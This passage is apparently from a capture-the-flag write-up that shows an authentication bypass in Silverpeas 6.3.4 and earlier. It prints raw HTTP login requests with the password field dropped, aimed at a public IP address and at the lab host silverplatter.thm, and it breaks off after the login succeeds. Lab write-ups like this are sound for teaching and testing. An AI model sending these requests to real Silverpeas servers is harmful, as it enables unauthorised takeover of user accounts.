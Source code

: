 **Silverpeas** versions up to and including **6.3.4** are vulnerable to a **trivial authentication bypass**. submitting login credentials, if the password field is left **empty**, the application **automatically grants access** to the specified user without any authentication challenge. For example, a standard login request typically looks like this:
````console
POST /silverpeas/AuthenticationServlet HTTP/2
Host: 212.129.58.88
Content-Length: 28
Origin: https://212.129.58.88
Content-Type: application/x-www-form-urlencoded

Login=SilverAdmin&Password=SilverAdmin&DomainId=0
````
This login attempt will **fail** unless the user is still using the **default password**, in which case access may be granted. Otherwise, you'll be redirected back to the **login page** with an error message. However, if we **completely remove** the password field from the request, like this:
````console
POST /silverpeas/AuthenticationServlet HTTP/2
Host: 212.129.58.88
Content-Length: 28
Origin: https://212.129.58.88
Content-Type: application/x-www-form-urlencoded

Login=SilverAdmin&DomainId=0
````
Then the login attempt will (usually) succeed and redirect you to the main page.

---

### Exploitation
The provided `PoC` works flawlessly, I was able to log in as `scr1ptkiddy` without even needing a password.

- By crafting Burpsuite Request like this:
{% highlight python linenos %}
POST /silverpeas/AuthenticationServlet HTTP/1.1
Host: silverplatter.thm:8080
Content-Type: application/x-www-form-urlencoded
Content-Length: 42
Origin: http://silverplatter.thm:8080
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Priority: u=0, i
Login=scr1ptkiddy&DomainId=0
{% endhighlight %}

After accessing the `Silverpeas` Dashboard,